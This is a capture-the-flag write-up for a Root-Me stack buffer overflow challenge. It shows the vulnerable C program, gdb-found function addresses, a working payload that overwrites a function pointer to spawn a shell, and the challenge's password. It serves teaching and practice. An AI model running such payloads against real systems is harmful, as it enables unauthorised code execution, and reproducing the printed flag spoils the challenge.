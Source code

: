 # ELF x86 - Stack buffer overflow basic 2
- Point: 10pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en), 10 April 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502136-47d2b4bd-50fe-47af-80a9-e3c294bfbf01.png)

## Write-up:
Code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
## Write-up:
- As a normal code flow, the program will point to the address of **sup()** function and execute it. So we need to override the "ret addr" and point it to **shell()** function. - Using gdb and disassembler the **main()** function:<br>
![image](https://user-images.githubusercontent.com/48288606/141277701-1e1e1c08-997a-47ba-be6a-1129505aee79.png)
 
- Poke around and find the **shell()**'s address at **0x08048516**:<br>
![image](https://user-images.githubusercontent.com/48288606/141276299-ec52a57d-f7cb-48de-a655-2862d97402c3.png)
- Let's try filling with 128 arbitrary bytes and the address of **sup()** function at **0x08048559**
```
app-systeme-ch15@challenge02:~$ python -c "print('a'*128+'\x59\x85\x04\x08')" | ./ch15
Hey dude ! Waaaaazzaaaaaaaa ?!
Segmentation fault
```
"Segmentation fault" cuz we're executing onto a sensitive part of stack, don't mind that. Clearly, we can access to the satisfied function and carry out the code
### Solution:
- First we will fill the **buf**'s value with 128 "A" characters, and then push the address of the **shell()** function. <br>
Payload: `(python -c "print('a'*128+'\x16\x85\x04\x08')";cat) | ./ch15` <br>
Password: B33r1sSoG0oD4y0urBr4iN

